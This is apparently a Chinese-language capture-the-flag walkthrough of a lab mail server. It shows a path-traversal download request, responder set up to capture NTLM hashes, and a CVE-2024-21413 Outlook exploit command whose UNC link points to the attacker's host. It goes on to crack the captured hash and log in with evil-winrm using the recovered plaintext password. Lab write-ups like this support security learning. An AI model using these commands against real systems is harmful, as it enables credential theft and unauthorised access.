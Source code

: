 ```841bb5acfa6779ae432fd7a4e6600ba7:homenetworkingadministrator```

![圖片](https://hackmd.io/_uploads/r1A6wm3MC.png)

解密後

![圖片](https://hackmd.io/_uploads/rk_Xd73zA.png)

![圖片](https://hackmd.io/_uploads/HJf1t72zC.png)
似乎這的資料庫沒有直接紀錄信件訊息
而是只有儲存信件的名稱 , 於是乎準備去 google 相關路徑

![圖片](https://hackmd.io/_uploads/BkR337hfA.png)

```C:\Program Files\hMailserver\Data\domain.dom\user\E6\{E6..restoffilename}.EML```

不過 , 資料庫裡面的都是發信者的帳號 , 只有四個用戶組所以我想可以慢慢猜

經過一番嘗試後隨便找一封信下載下來
```http://mailing.htb/download.php?file=..\..\..\..\..\Program%20Files%20(x86)\hMailServer\Data\mailing.htb\maya\6E\{6E5EE719-D1E3-4DDD-A019-3787CC5C137F}.eml```

### CVE-2024-21413
結果是一封超像釣魚的信,而且還是管理員寄過來的

![圖片](https://hackmd.io/_uploads/HyhmCm2MC.png)

底部有一個

![圖片](https://hackmd.io/_uploads/ByCF1E3fC.png)

依照提示找到一個專案工具
[github](https://github.com/xaitax/CVE-2024-21413-Microsoft-Outlook-Remote-Code-Execution-Vulnerability)

大意是說 , 有個漏洞你只要閱覽郵件就會自動讀取裡面的 url
用來劫持 NTLM 之類的

先來開個 responder
```
sudo responder -I tun0 -w -d

```
執行poc腳本
```
python CVE-2024-21413.py --server 10.129.231.35 --port 587 --username "administrator@mailing.htb" --password "homenetworkingadministrator" --sender "administrator@mailing.htb" --recipient "maya@mailing.htb" --url '\\10.10.16.26\smb\hello' --subject "You are fire"
```

~~然後甚麼事情都沒發生~~
其實是這個 poc 還是要使用者點開郵件才能觸發的
所以我們要等使用者點開這個郵件

![圖片](https://hackmd.io/_uploads/rJvE_P2GC.png)
>等了至少一小時 , 期間去玩其他CTF

之後拿去跑 hashcat

![圖片](https://hackmd.io/_uploads/S1Q1Fv2zR.png)

密碼是 ```m4y4ngs4ri```

接者直接連上去

```evil-winrm -i 10.129.43.97 -u 'maya' -p 'm4y4ngs4ri'```

```